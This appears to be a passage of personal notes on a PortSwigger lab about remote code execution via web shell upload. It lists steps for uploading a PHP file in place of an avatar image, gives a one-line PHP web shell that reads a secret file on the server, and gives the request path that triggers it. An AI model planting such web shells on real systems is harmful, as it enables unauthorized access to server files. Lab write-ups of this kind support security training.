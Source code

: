 # Lab 1: [Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)
- Login to the given account > Upload an image > Observe the Request & Response in HTTP History > Prepare a web-shell php file script > Upload it > Send the Get Request to Repeater > Change the path to your file.
- php file script `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Web shell File path: `GET /files/avatars/webshell.php HTTP/1.1`

> Web shell is a `malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests` to the right endpoint.

# Lab 2: 
